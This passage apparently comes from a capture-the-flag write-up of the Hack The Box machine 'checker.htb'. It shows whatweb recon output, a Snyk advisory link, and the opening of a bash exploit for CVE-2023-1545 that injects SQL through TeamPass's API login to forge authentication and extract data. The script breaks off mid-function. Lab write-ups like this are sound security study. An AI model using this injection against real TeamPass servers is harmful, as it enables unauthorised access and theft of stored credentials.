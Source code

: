 

```bash
❯ whatweb -a 3 http://checker.htb
http://checker.htb [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.56], Title[403 Forbidden]
❯ whatweb -a 3 http://checker.htb:8080
http://checker.htb:8080 [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.56], Title[403 Forbidden]
```



<figure><img src="../../.gitbook/assets/5349_vmware_ak55WHexk4.png" alt=""><figcaption></figcaption></figure>





{% embed url="https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612" %}



{% code title="CVE-2023-1545.sh" %}
```bash
#!/bin/bash

if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
```